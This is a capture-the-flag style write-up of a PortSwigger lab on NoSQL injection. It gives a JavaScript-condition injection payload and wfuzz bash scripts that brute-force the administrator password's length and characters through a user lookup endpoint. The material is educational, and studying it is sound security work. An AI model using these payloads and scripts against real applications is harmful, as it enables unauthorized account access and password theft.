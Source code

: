 # Exploiting NoSQL injection to extract data

**Lab Url**: [https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data)

![Lab Description](img/lab-description.png)

## Analysis

As usual, the initial step is to understand how the vulnerable application works and gather information about the target system. The application has a `My account` page that redirects to `login` page if a user is not logged in.

After logging in to the application with the given credentials, the network tab reveals an interesting URL. The application looks for a user with a given username (`/user/lookup?user=wiener`).

Let's append an apostrophe (`'`) at the end of the user parameter. Surprisingly, the application returned a message saying, "**There was an error getting user details.**".

```json
{
  "message": "There was an error getting user details"
}
```

Maybe our apostrophe (`'`) breaks the query syntax. Now let's inject a JavaScript condition that always evaluates to true, such as `'||'0'=='0`. And observe how response changes. Hmm, we were able to get an administrator user. This is probably because the query is returning all users, and the first user, the administrator user is being returned.

![Administrator User](img/user-lookup.png)

Now that we know that the database evaluates javascript as part of the query, we can try to get the length of the password of the administrator user.

*Use the below script to determine the length of the administrator password.*

```bash
echo {0..9} | tr ' ' '\n' > range.txt
```

```bash
#!/bin/bash

wfuzz -X GET \
    -u "https://YOUR-LAB-ID.web-security-academy.net/user/lookup?user=administrator'%26%26this.password.length=='FUZZ" \
    -b "session=YOUR-SESSION-KEY" \
    -w range.txt \
    --hs '"message"\s*:\s*"Could not find user"'
```

**Now, deduce the administrator password character by character. I am going to use wfuzz because, Burp (community edition) intruder tab is very slow.**

Extract the password character by character starting from index 0 to 7.

```bash
echo {0..9} {a..z} {A..Z} | tr ' ' '\n' > chars.txt
```

```bash
#!/bin/bash

for c in {0..7}; do
  wfuzz -X GET \
      -u "https://YOUR-LAB-ID.web-security-academy.net/user/lookup?user=administrator'%26%26this.password[${c}]=='FUZZ" \
      -b "session=YOUR-SESSION-KEY" \
      -w chars.txt \
      --hs '"message"\s*:\s*"Could not find user"'
done
```

After getting the password, log in as an administrator user to solve this lab.

![Lab Solved](img/lab-solved.png)
